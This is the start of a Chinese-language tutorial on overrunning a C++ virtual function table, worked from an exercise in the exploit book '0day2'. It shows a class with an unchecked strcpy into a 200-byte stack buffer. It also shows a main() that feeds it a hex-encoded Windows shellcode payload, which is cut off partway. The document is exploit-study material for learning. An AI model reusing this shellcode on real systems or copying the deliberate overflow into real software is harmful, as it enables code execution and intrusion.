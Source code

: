 # Overrun virtual_func table

**Author：wnagzihxain
Mail：tudouboom@163.com**

这篇会写的很详细，因为我觉得调试这节有一种最开始学习二进制的感觉，刺激！！！！！！

《0day2》提供的代码是这样的

![](Image/1.png)

我们观察一下，然后给下个断点
``` 
// over_virtual.cpp : 定义控制台应用程序的入口点
//

#include "stdafx.h"
#include "string.h"

class GSVirtual {
	public:
		void gsv(char* src)
		{
			char buf[200];
			strcpy(buf, src);
			bar(); // virtual function call
		}
		virtual void  bar()
		{}
};

int main()
{
	GSVirtual test;
	__asm int 3
	test.gsv(
		"\x04\x2b\x99\x7C"
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
```